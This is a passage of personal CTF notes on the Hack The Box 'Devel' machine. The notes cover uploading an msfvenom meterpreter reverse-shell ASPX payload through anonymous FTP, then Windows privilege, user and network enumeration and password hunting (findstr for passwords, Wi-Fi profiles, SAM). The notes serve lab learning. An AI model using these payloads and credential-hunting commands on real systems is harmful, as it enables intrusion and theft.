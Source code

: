 
#challenge Devel in **Hack the box**

#### System Enumeration:
scan the machine through nmap

If the application is hosted with IIS then the application is vulnerable to .aspx exploits.
windows > meterpreter > reverse_tcp

using ftp anonymous login, generated a payload and uploaded in the web.

`msvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.1 LPORT=3344 -f aspx > shell.aspx`

After the connection got established in meterpreter shell. Looking  for 
	`getuid` -- Looking for the administrator `NT AUTHORITY\SYSTEM`
	`sysinfo`
	 
	![[Pasted image 20230809045749.png|400]]
`sysinfo` - get all the details of the machine, including owner, memory and everything.
	`sysinfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"` #findstr 
	`hostname`
`wmic qfe` - windows management instrumentation command line 
	`qfe - quick fix engineering` 
		which tells the information about last security updates happened on the machine.
		`wmic qfe get Caption,Description,HotFixID,Installation`
			we can copy paste list into the during enumeration 
	returns systems information that are running on 
`wmic logicaldisk get caption,description,providername`


#### User Enumeration:
With in victim machine
`whoami /priv`
	`SeAssignPrimaryTokenPrivilege` - Token impersonation
		potato Attacks like juicy potato, rotten potato
		![[Pasted image 20230809052805.png|500]]
`whoami /groups`
`net user`
	will list down all accounts
`net user *username*`
	list down the details of username
`net localgroug administrators`


#### Network Enumeration:
`ipconfig /all`
`arp -a` - arp tables just a protocol that communicating with other machines or other protocols.
	![[Pasted image 20230809053420.png|400]]
	If you're in a lab environment you may get a change to see another ip in the interface.
`route print` - will show info of iface list and routes of the ip in the machine
`netstat -ano`
	LISTENING - some services only be available to inside networks "only within the machine"
		Utilization with Tool - meterpreter 
#### Password Hunting:
SAM file, WI FI Home `netsh wlan show profile` 
#findstr `findstr /si password *.txt*`
	/si -search for
`sc query windefend` - service control
`sc queryex type=service `  - querying all the services running on the machine

`netsh advfirewall dump` (or) `netsh firewall show state` 
	- to collect the info of how the firewall gets configured.
		`netsh firewall show config`
		
